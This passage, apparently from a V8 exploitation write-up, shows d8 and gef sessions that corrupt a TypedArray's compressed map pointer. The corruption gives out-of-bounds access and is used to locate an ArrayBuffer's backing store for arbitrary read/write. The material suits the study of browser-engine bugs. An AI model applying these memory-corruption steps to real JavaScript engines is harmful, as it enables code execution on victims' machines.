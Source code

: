 We see that right after the data buffer is the [compressed](https://blog.infosectcbr.com.au/2020/02/pointer-compression-in-v8.html)
`map` pointer. Among other things, this `map` holds information about the
datatype of the array.  Let's see what happens if we were to change this to
another type.  (In a non-debug build of `d8` otherwise we will trigger debug
assertions)

```
var b = new Uint32Array(new Array(4).fill(0xdeadbeef));
%DebugPrint(b)
 - map: 0x24fb082c3181 <Map(UINT32ELEMENTS)> [FastProperties]

var c = new Uint8Array([0x81, 0x31]);  // Lower two bytes of b's map
a.set(c, 4)                            // Overwrite a's map

d8> a
2880154539,136327553,134226477,134518561
```

Now `a` is still the same length, but all the elements are 32 bit. Thus the
data buffer is now assumed to be 16 bytes. This allows an OOB read/write on
three 32 bit values after `a`.

An interesting memory layout happens if we allocate an ArrayBuffer right after
an TypedArray:

```
var a = new Array(64).fill(0xab);
var b = new Uint8Array(a)
var c = new Arraybuffer(4);

%DebugPrint(b)
 - data_ptr: 0x31ef08109958

%DebugPrint(c);
DebugPrint: 0x31ef081099e1: [JSArrayBuffer]
 - backing_store: 0x55555563c410

// The distance between the data buffer and the JSArrayBuffer
gef➤  p/x 0x31ef081099e1 - 0x31ef08109958
$2 = 0x89
gef➤  p 'v8::internal::TorqueGeneratedJSArrayBuffer<v8::internal::JSArrayBuffer, v8::internal::JSObject>::kBackingStoreOffset'
$3 = 0x1c
gef➤  p/d (0x88+0x1c)/4
$4 = 41
```

Thus we can modify the backing store of the ArrayBuffer by writing to fields
41 and 42 of the corrupted TypedArray.

However, so far we only encountered compressed pointers but the top bits of this
pointer are also in the memory right after the corrupted TypedArray:

```
gef➤  x/xw 0x31ef08109958 + 27*4
0x31ef081099c4:	0x000031ef
```
